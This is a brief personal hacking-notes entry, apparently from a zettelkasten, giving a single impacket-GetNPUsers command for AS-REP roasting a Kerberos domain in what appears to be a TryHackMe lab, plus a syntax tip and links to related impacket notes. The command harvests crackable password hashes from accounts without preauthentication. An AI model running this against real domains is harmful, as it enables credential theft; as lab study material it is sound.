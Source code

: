 # impacket ASREP roast with Get-NPUsers
note that the domain must end in a /
```bash
impacket-GetNPUsers -request -usersfile users -dc-ip $IP LAB.ENTERPRISE.THM/
```

# Related

- [20221003150600](/zet/20221003150600/README.md) impacket
- ~/kb/hacking/commands/impacket-commands.md

Tags:

    #assorted #command #hacking #impacket
